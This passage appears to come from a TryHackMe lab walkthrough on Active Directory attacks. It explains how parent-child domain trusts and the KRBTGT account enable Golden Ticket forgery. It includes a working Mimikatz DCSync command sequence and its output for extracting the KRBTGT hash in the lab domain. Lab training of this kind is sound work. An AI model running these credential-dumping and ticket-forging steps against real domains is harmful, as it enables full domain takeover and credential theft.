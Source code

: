 As mentioned above, the trust between a parent and child domain is  bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an  attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.

### KRBTGT and Golden Tickets

KRBTGT is the account used for Microsoft's implementation of Kerberos. The  name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT).  Essentially, this account acts as the service account for the Kerberos  Distribution Center (KDC) service, which handles all Kerberos ticket  requests. This account is used to encrypt and sign all Kerberos tickets  for the domain. Since the password hash is shared by all domain  controllers, they can then verify the authenticity of the received TGT  when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a Golden Ticket attack. In a Golden Ticket attack, we bypass  the KDC altogether and create our own TGTs, essentially becoming a  Ticket Granting Server (TGS). In order to forge TGTs, we need the  following information:

- The FQDN of the domain
- The Security Identifier (SID) of the domain
- The username of the account we want to impersonate
- The KRBTGT password hash

The first three are usually easy to recover. The last one requires a domain compromise since the KRBTGT password hash is only stored on domain  controllers. Luckily for us, we have just compromised the Tier 0 admins  group with a forged certificate, so we are in a position to recover the  KRBTGT password hash. 

We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2:

- **Command Prompt**      

```powershell
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/25/2022 7:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: removed
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami